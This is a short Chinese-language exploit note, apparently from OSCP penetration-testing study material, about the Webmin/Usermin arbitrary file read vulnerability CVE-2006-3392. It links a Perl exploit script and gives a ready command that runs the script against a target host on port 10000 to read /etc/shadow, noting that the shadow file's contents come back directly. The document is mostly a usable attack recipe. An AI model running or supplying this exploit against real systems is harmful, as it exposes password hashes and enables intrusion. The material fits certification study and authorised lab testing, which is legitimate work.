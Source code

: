 # Webmin

漏洞：Webmin < 1.290 / Usermin < 1.220 - 任意文件读取漏洞 (Perl)

CVE : `CVE-2006-3392`

利用脚本：

```bash
https://github.com/isecurityplus/OSCP/blob/master/web-exploit-exp/Webmin/CVE-2006-3392.pl
```

下载脚本到本地。

使用方法：

```
perl 141-2.pl 10.11.1.141 10000 /etc/shadow 0
```

可以直接读取到 shadow 文件的内容。
